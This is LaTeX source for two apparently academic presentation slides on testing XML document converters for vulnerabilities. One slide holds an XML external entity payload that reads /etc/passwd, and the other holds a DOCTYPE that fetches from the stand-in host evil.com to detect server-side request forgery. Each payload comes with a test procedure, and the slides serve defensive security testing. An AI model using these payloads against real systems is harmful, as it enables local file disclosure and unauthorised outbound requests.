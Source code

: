 \documentclass[
    alternativetitlepage=alternativ,
    cornerlogo=hgi_nds_logo2,
    sectionoverview,
]{rubpresentation}
\begin{document}
\begin{frame}[fragile]
    \frametitle{File System Access}
    \begin{columns}[t]
        \begin{column}{0.5\textwidth}
            \begin{lstlisting}[language=xml,basicstyle=\fontsize{8.5}{11}\ttfamily,numbers=none]
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE data [
  <!ELEMENT data ANY >
  <!ENTITY file SYSTEM "file:///etc/passwd">
]>
<data>&file;</data>
            \end{lstlisting}
        \end{column}
        \begin{column}{0.5\textwidth}
            \begin{enumerate}
                \item{} Create test files that contain certain string
                \item{} Run converter
                \item{} Check if string is present in resulting file
            \end{enumerate}
        \end{column}
    \end{columns}
\end{frame}

\begin{frame}[fragile]
    \frametitle{Server-Side Request Forgery}
    \begin{columns}[t]
        \begin{column}{0.5\textwidth}
            \begin{lstlisting}[language=xml,basicstyle=\fontsize{8.5}{11}\ttfamily,numbers=none]
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE html PUBLIC "-//W3C//DTD XHTML 1.0 Transitional//EN" "http://evil.com/TR/xhtml1/DTD/xhtml1-transitional.dtd">
<html>
    <head />
    <body>text</body>
</html>
            \end{lstlisting}
        \end{column}
        \begin{column}{0.5\textwidth}
            \begin{enumerate}
                \item{} Start a webserver in a background thread
                \item{} Run converter
                \item{} Check if webserver received any HTTP requests
            \end{enumerate}
        \end{column}
    \end{columns}
\end{frame}
\end{document}

